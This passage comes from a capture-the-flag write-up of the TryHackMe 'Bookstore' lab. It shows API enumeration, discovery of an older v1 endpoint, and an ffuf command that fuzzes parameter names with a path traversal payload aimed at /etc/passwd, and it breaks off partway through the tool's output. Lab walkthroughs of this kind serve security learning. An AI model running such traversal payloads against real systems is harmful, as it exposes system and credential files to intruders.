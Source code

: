### Analysis /api Directory

The directory showed the API's documentation:

![API Documentation](/assets/img/tryhackme/Bookstore/thm_bookstore_2.jpg)

I interacted with the API, and it returned some book data as expected. To exploit this, I attempted to inject path traversal and SQL injection payloads, but was unsuccessful. Since the API was labeled as version two, I suspected there might be a version one aswell, and indeed, I was able to retrieve book data of the version one:

![Book data Version one](/assets/img/tryhackme/Bookstore/thm_bookstore_3.jpg)

This was interesting, so I tried several payloads but again was unsuccessful. Since the API documentation showed multiple parameters, I thought the `id` might be useless, so I enumerated to find other valid parameters:
```bash
kali@kali:~/ctf/bookstore$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.10.122.52:5000/api/v1/resources/books?FUZZ=../../../../../../../etc/passwd'  
 
          /'___\  /'___\           /'___\       
        /\ \__/ /\ \__/  __  __  /\ \__/       
        \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
          \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

        v2.1.0-dev
  ________________________________________________

  :: Method           : GET
  :: URL              : http://10.10.122.52:5000/api/v1/resources/books?FUZZ=../../../../../../../etc/passwd
  :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt
  :: Follow redirects : false
```